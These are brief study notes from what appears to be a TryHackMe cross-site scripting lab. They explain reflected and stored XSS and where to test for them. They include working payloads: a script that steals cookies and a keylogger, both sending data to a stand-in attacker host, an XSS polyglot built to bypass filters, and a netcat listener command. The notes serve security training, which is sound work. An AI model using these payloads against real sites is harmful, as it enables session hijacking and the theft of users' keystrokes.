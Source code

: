 # Room: Intro to Cross-site scripting

## Key Concept
- XSS is a injection attack where malicious JS gets injected into a web application with the intention of being executed by other users.
- Can use alert as a way to prove a site is XSS vulnerable
- Can steal session data using:
```JavaScript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
- Keylogger:
```JavaScript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Testing for XSS
- Parameters in the URL query string
- URL file path
- Sometimes in HTTP headers

### Stored XSS
- Malicious code stored on site (such as code in a comment stored on DB)
- Victim views comment, runs code in victims browser

#### Testing for Stored XSS
- Test every possible point of entry where it seems data is stored and then shown back in areas other users have access to

## Tools / commands
### XSS hunter express
- can be used for blind XSS attacks

### JS polyglot
- An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one:
    - ```JavaScript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
    ```

### Netcat
#### Command - Start a Listening Server
- nc -nlvp 9001

##### Switches
- `-n` prevents DNS resolution (faster and avoids name lookup issues)
- `-l` puts Netcat in listen mode (waits for incoming connections)
- `-v` enables verbose output (displays connection/debug information)
- `-p` specifies the port to listen on (e.g. 9001)